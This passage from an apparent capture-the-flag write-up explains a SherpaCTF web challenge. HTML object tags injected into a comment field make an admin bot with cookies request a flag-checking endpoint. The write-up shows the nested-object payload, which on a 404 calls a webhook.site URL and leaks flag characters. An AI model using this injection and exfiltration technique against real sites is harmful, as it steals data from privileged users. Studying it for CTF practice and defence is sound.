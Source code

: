 ![/comment endpoint](https://github.com/w0rmhol3/w0rmhol3-Blog/blob/main/source/_img/SherpaCTF/image%207.png?raw=true)

Note: see the huge empty comment field? Thats where your `object tag` is injected

In the process of this challenge, after injecting the script, you report the page by sending the whole URL to the reporting page at “/osha-see” endpoint. 

And when you do that, the bot will visit the affected endpoint, which triggers the first object as it holds the administrator cookie. 

But how do you get the flag? Understand this:

```js
<object data="/oshaoshaflagfinder?flag=SHCTF24{">
```

The parameter and value: `?flag=xxxxx` plays important role in this.

As the bot is allowed to visit the page, when triggered with the correct part of the flag through the 

`?flag` parameter, then the nested object will not be triggered. So just a `response 200` happening.

but if its the wrong value like `?flag=xxxxx` , then the nested line:

```js
    <object data="https://webhook.site/your_webhook_here?flag=SHCTF24{"></object>
</object>
```

will be triggered due to a `response 404`, starting a webhook connection.
